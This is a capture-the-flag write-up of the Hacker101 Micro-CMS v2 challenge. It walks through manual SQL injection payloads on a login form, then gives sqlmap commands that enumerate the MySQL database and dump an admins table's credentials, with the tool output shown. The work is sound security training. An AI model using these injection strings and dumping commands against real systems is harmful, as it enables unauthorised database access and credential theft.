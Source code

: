 ## Micro-CMS v2 - Hacker101 CTF - Web (moderate)

#### Initial recon

The page is very barebones, however there are two options that we can navigate to that will be the primary attack surface: Creating a new page, and editing a page. Either one of these directs us to a login prompt.

![login](https://github.com/user-attachments/assets/ecf835eb-535c-4d2d-bcc2-6385fc8ac311)

#### Login Page Injection

I send a login request and capture it with burpsuite to get a better look. The login function sends a POST request with parameters: username and password. From here I can test for injection vulnerabilities.

Testing for SQLi:

Simply entering ' for the username produces an error in the page:

![intServerError](https://github.com/user-attachments/assets/2b5edfad-2d54-41fd-adfd-b2ae11438203)

But entering '; for the username just gives me an unknown user response. Therefore I am likely dealing with a SQL database.

For example, the username code could be "username = '<SOME INPUT>'" where <SOME INPUT> is what we enter. When we enter single apostrophe the effective result becomes "username = '''" which is invalid code. However, when we use ';, the ; ends the line of code: "username='';'" so the apostrophe after the semicolon is voided out making it legitimate code hence the normal unknown user response.

From here, I try "test' or 1=1;" as my input and this time the page tells us "invalid password". Trying out to comment the remaining line of SQL to ignore the password doesn't work. There is likely a separated SQL line for password checking, to ensure that a user is matched to its password.

#### SQLMAP

I will make use of sqlmap to make a more comprehensive attack into this SQLi vulnerability.

```
sqlmap -u "https://1b2e944ae31eb228af9fbc71fdeb9e9c.ctf.hacker101.com/login" --data="username=admin&password=test" -p username,password --level=5 --risk=3
```

The results of this sqlmap tell me that the backend database type is MySQL so I cancel this run and rerun SQLmap to save time:

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --batch --dbms=mysql --dbs --level=3 --risk=2
```

The above command enumerated 4 databases:

```
[13:11:23] [INFO] retrieved: 4
[13:11:26] [INFO] retrieved: information_schema
[13:12:25] [INFO] retrieved: performance_schema
[13:13:21] [INFO] retrieved: mysql
[13:13:40] [INFO] retrieved: level2
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema
```

I will continue using sqlmap to further enumerate the MySQL database.

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --dbms=mysql -D level2 --tables --columns --level=3 --risk=2 --threads=8
```

The results of the above command tell me there are two tables in the "level2" database: "admins" and "pages". Then sqlmap continues to find the column names for each of these tables:

```
Database: level2
Table: pages
[4 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| body   | mediumtext   |
| id     | int(11)      |
| public | tinyint(1)   |
| title  | varchar(256) |
+--------+--------------+

Database: level2
Table: admins
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(256) |
| username | varchar(256) |
+----------+--------------+

```

From here, what we are interested in is the password and username columns for the admins table in the level2 database. To dump the data from this table, use the following sqlmap:

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --dbms=mysql -D level2 -T admins -C id,password,username --dump --level=3 --risk=2 --threads=8
```

And like magic, the results:

```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | crista   | amber    |
+----+----------+----------+
```

After logging in, the flag shows up.

#### Resources

https://sqlmap.org/

